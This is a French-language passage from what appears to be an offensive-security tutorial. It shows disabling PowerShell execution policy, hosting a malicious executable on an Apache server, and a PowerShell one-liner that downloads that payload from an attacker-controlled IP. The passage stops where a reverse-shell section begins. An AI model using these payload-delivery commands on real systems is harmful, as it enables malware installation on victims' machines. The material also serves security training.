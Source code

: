 > **Attention** : La levée des restrictions d'exécution des scipts PowerShell est facilement détectable par un HIDS (*Host-based Intrusion Detection System*).
{.is-danger}


Pour désactiver les protections, lancez PowerShell en **Administrateur** : 

`Set-ExecutionPolicy Unrestricted`

![firefox_qlyjpj1tzt.png](/uploads/reconnaissance/firefox_qlyjpj1tzt.png){.align-center}
![powershell_ise_eo7tp1km3y.png](/uploads/reconnaissance/powershell_ise_eo7tp1km3y.png){.align-center}
![powershell_ise_k4ttmknh58.png](/uploads/reconnaissance/powershell_ise_k4ttmknh58.png){.align-center}

Vous pouvez vérifier les paramètres avec : `Get-ExecutionPolicy`

![vmware_wuhw5zpsvm.png](/uploads/reconnaissance/vmware_wuhw5zpsvm.png){.align-center}

## TRANSFERT DE FICHIER

Il est possible de transférer des données via HTTP en utilisant PowerShell. Il est ainsi possible de transférer un payload malveillant comme une simple connexion internet.

Dans notre exemple, **Monsieur Capuche** va mettre à disposition un fichier malveillant sur son serveur web que **Monsieur Bob** pourra télécharger.

> Attention : Le protocol HTTP n'est pas sécurisé et toute donnée l'utilisant transite en clair. Dans le cas du transfert d'un Payload, un firewall avec un système de "Deep Packet Inspection" remarquera très vite la supercherie.
{.is-danger}

Monsieur Capuche place un payload dans le répertoire par défaut de son serveur web :

`sudo cp /home/noone/Documents/Virus.exe /var/www/html/`

![vmware_gslvgaftjp.png](/uploads/reconnaissance/vmware_gslvgaftjp.png){.align-center}

Puis il lance son serveur web : `sudo systemctl start apache2`

Il est possible de vérifier le status d'un service avec : `systemctl status [service]`.

![vmware_wqi6kwvziw.png](/uploads/reconnaissance/vmware_wqi6kwvziw.png){.align-center}

**Bob** peut maintenant télécharger le fichier malveillant depuis une invite de commande CMD : 

`powershell -c (“new-object System.Net.WebClient).DownloadFile(‘http://[@IP]/[Executable]’,’[Chemin de sauvegarde]\[Executable]’)”`

![autqxju4wa.gif](/uploads/reconnaissance/autqxju4wa.gif){.align-center}

![vmware_cujtrc6gnh.png](/uploads/reconnaissance/vmware_cujtrc6gnh.png){.align-center}

## REVERSE SHELL

Dans notre cas, **Monsieur Capuche** va créer un serveur d'écoute auquel **Monsieur Bob** va se connecter tout en y connectant son invite PowerShell.
